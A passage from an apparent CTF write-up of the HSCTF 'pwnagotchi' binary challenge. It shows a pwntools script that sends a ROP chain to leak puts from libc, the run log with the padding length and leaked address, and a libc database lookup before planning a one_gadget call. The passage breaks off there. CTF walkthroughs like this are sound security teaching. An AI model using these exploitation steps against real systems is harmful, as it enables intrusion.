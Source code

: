 ```
r.sendline(fit({PAYLOAD_PADDING: rop.chain()}))
r.recvuntil('is not happy!\n')

libc_puts = u64(r.recvn(6) + '\x00\x00')
log.info('Leaked libc_puts: 0x{:x}'.format(libc_puts))
```

Let's start off by leaking the address of `puts`.

```
vagrant@ctf:/vagrant/challenges/hsctf/pwnagotchi$ python xpl.py
[*] '/vagrant/challenges/hsctf/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './pwnagotchi': pid 32049
[*] Process './pwnagotchi' stopped with exit code -11 (SIGSEGV) (pid 32049)
[+] Parsing corefile...: Done
[*] '/vagrant/challenges/hsctf/pwnagotchi/core.32049'
    Arch:      amd64-64-little
    RIP:       0x400988
    RSP:       0x7fffffffda98
    Exe:       '/vagrant/challenges/hsctf/pwnagotchi/pwnagotchi' (0x400000)
    Fault:     0x6161616461616161
[+] Found padding length: 20
[+] Opening connection to pwn.hsctf.com on port 5005: Done
[*] Loaded cached gadgets for './pwnagotchi'
[*] Leaked libc_puts: 0x7fee5a7169c0
```

Nice, so the libc address of `puts` is `0x7fee5a7169c0`. Let's try entering that into the libc database search.

![](/images/pwnagotchi/pwnagotchi-1.png)

Seems like it's either going to be `libc6_2.27-3ubuntu1_amd64` or `libc6_2.3.6-0ubuntu20_i386_2`. Since this is a 64 bit binary to begin with, we can conclude that the libc version is probably going to be `libc6_2.27-3ubuntu1_amd64`. Now that we can calculate the libc base address ergo calculate the address of `one_gadget` I suppose we're golden right? Not quite. Let's look at the following excerpt of disassembly that's called before the program gets our input.
